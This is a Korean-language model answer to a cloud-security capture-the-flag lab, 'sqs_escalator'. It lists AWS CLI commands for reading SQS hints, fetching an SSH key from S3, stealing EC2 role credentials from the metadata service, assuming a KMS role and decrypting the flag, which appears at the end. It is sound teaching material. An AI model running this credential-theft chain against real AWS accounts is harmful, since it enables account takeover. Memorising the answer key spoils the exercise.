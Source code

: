 # [sqs_escalator] 모범 답안  

1. Terraform을 통해 생성된 Access Key와 Secret Key를 사용하여 AWS CLI 프로파일을 구성한다.  
```bash
aws configure --profile yejin
```

2. 설정이 올바르게 되었는지 확인한다.  
```bash
aws sts get-caller-identity --profile yejin
```

3. SQS 메시지를 수신하여 EC2 접속 정보, PEM 경로, 플래그 경로, AssumeRole 힌트를 획득한다.  
```bash
aws sqs receive-message \
  --queue-url <SQS_URL> \
  --profile yejin
```

4. PEM 키 파일을 S3에서 다운로드 후 SSH 접속을 시도한다.  
```bash
aws s3 cp s3://<bucket-name>/ec2-access.pem ./ec2-access.pem --profile yejin
chmod 400 ec2-access.pem

ssh -i ec2-access.pem ec2-user@<EC2_IP>
```

5. EC2 내부에서 메타데이터 서비스를 통해 IAM 역할 자격 증명을 탈취한다.  
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<EC2-ROLE-NAME>
```

6. 탈취한 자격 증명을 환경 변수로 등록한다.  
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
```

7. 암호화된 flag 파일을 S3에서 다운로드한다.  
```bash
aws s3 cp s3://<bucket-name>/flag.enc ./flag.enc
```

8. 복호화를 시도하나 실패한다.  
```bash
aws kms decrypt \
  --ciphertext-blob fileb://flag.enc \
  --output text --query Plaintext
```

9. AssumeRole을 수행하여 kmsReaderRole 권한을 획득한다.  
```bash
creds=$(aws sts assume-role \
  --role-arn arn:aws:iam::<account-id>:role/kmsReaderRole \
  --role-session-name attacker-session)

export AWS_ACCESS_KEY_ID=$(echo $creds | jq -r '.Credentials.AccessKeyId')
export AWS_SECRET_ACCESS_KEY=$(echo $creds | jq -r '.Credentials.SecretAccessKey')
export AWS_SESSION_TOKEN=$(echo $creds | jq -r '.Credentials.SessionToken')
```

10. 획득한 권한으로 다시 KMS 복호화를 시도하여 flag를 획득한다.  
```bash
aws kms decrypt \
  --ciphertext-blob fileb://flag.enc \
  --output text --query Plaintext | base64 -d
```

<br/><br/>
FLAG{escalation_success_kms_flag}

